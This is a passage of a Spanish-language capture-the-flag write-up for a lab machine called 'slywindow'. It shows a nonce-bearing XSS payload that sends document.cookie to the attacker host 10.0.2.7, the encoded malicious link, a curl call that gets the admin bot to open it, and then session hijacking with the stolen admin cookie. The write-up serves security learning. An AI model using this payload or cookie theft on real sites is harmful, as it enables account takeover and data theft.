 ```javascript
<script nonce="aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx">location.href='//10.0.2.7/?'+encodeURIComponent(document.cookie)</script>
```

Accedemos a la siguiente URL desde nuestro navegador; aunque visualmente se redirige a Google, nuestro servidor web logra capturar la cookie de nuestra propia sesión, validando así la exfiltración.

```text
http://www.slywindow.nyx/admin.php?error=%3Cscript%20nonce%3D%22aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx%22%3Elocation.href%3D%27//10.0.2.7/%3F%27%2BencodeURIComponent%28document.cookie%29%3C%2Fscript%3E
```

![My cookie](../../../assets/images/slywindow/20250801_035317_image.png)

Con el enlace malicioso listo, procedemos a utilizar la API para enviar la URL al administrador y así intentar exfiltrar su cookie de la página `http://www.slywindow.nyx/admin.php`.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://www.slywindow.nyx/admin.php?error=%3Cscript%20nonce%3D%22aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx%22%3Elocation.href%3D%27//10.0.2.7/%3F%27%2BencodeURIComponent%28document.cookie%29%3C%2Fscript%3E"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

En menos de 30 segundos, nuestro servidor recibe la cookie de sesión del administrador, confirmando la exfiltración exitosa.

![Admin cookie](../../../assets/images/slywindow/20250801_035601_image.png)

Accedemos a la URL `http://www.slywindow.nyx/admin.php`, sustituimos la cookie de sesión en el navegador por la del administrador previamente exfiltrada y recargamos la página. De este modo, obtenemos acceso al `Administration Panel`.
